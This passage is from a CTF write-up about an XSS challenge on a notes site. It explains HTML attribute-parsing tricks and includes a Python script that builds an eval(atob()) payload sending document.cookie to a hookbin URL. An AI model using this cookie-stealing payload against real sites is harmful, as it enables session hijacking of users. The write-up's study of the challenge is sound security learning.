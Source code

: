 I have made a mistake in the payload. I was not able to notice that during the CTF. 
By that time, three hours left for CTF to end, i felt overwhelemed and finally gave up on it. :(

Looking for solution, I found this in the discord.

![](/images/redpwn/discord.png)

By [@Triacontakai](http://)

I felt bad for not trying enough. My payload was close.

In my payload, the sigle quotes inserted are being parsed in the context of the attribute x.
So all the payload inserted is being added as the value of x instead of breaking out.

In the correct solution the one additional tag is used. It first breaks the **a** attribute
and opens **onload** attribute. Doing this way, it worked.
But why is this happening?? It's all about understanding weird HTML parsing.
To modify my payload in a similar way have complications coz of **onerror** is long attribute. So ignoring the unwanted HTML
is hard. 

So im gonna stick with above style payload. It uses onload to execute the javascript. It fits exactly.
Also to execute arbitrary JS code, it uses eval along with atob, to decode a base64 string and run the code we provide.
This is usefull bypassing the encoding of body parameter.

So lets try this now. I have used a python script to do this. 

```python
import requests
import base64

url = "https://notes.mc.ax"
hookurl = "https://hookb.in/zrr8VBZpwXhol3MMlLbJ" # replace with your hookbin url
code = "fetch('{}?key='+document.cookie)".format(hookurl)
encoded = base64.b64encode(code.encode()).decode()

username = "lol" # replace with random username

with requests.Session() as s:
  s.headers.update({'Content-Type': 'application/json'})
  data = {
    "username": username,
    "password": username
  }
  res = s.post(url+'/api/register', json=data)
  print("[+] Registered a user..")

  data = {
    "body": "foo",
    "tag": "<style a='"
  }

  res = s.post(url+'/api/notes', json=data)
```